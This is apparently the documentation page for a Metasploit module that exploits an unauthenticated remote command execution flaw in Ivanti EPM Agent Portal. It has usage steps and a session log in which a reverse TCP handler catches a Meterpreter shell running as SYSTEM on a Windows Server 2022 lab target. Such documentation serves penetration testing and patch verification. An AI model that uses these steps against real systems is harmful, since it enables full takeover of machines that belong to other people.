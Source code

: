 ## Vulnerable Application
This module leverages an unauthenticated RCE in Ivanti's EPM Agent Portal where a RPC client can invoke a method
which will run an attacker-specified string on the remote target as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/misc/ivanti_agent_portal_cmdexec`
1. Set the `RPORT`, `PAYLOAD` and any payload-related options
1. Run the module

## Options

## Scenarios

### Ivanti 2021.1 / 11.0.4.733 on Windows Server 2022 x64

```
metasploit-framework.pr (S:3 J:0) exploit(windows/misc/ivanti_agent_portal_cmdexec) > run

[*] Powershell command length: 4205
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.130:49673 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.159.130:49673 - Connected to the remote end point
[+] 192.168.159.130:49673 - The target is vulnerable.
[*] Sending stage (176198 bytes) to 192.168.159.130
[*] Meterpreter session 11 opened (192.168.159.128:4444 -> 192.168.159.130:53627) at 2024-10-28 17:15:09 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-NJ6DUF1OCAM
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > 
```
